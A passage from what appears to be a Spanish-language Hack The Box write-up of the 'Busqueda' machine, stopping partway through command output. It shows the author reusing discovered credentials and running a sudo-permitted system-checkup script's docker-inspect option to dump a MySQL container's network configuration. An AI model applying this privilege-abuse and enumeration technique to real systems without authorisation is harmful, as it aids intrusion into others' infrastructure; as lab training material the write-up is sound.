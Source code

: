 ![](/assets/images/htb-writeup-busqueda/web10.png)

Si nos conectamos con las credenciales que vemos funcionan

![](/assets/images/htb-writeup-busqueda/web11.png)

Como sabemos que se esta ejecutando `docker` y nos deja pasarle argumentos podemos ver el archivo de configuracion para la base de datos

```bash
svc@busqueda:/opt/scripts$ sudo python3 /opt/scripts/system-checkup.py docker-inspect
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
svc@busqueda:/opt/scripts$ 
svc@busqueda:/opt/scripts$ sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .NetworkSettings.Networks}}' mysql_db | jq .
{
  "docker_gitea": {
    "IPAMConfig": null,
    "Links": null,
    "Aliases": [
      "f84a6b33fb5a",
      "db"
    ],
    "NetworkID": "cbf2c5ce8e95a3b760af27c64eb2b7cdaa71a45b2e35e6e03e2091fc14160227",
    "EndpointID": "d1a81cf47e562fd363c9cb2e84924fc516990702357d136c2299c463b290e65e",
    "Gateway": "172.19.0.1",
    "IPAddress": "172.19.0.3",
    "IPPrefixLen": 16,
    "IPv6Gateway": "",
    "GlobalIPv6Address": "",
    "GlobalIPv6PrefixLen": 0,
```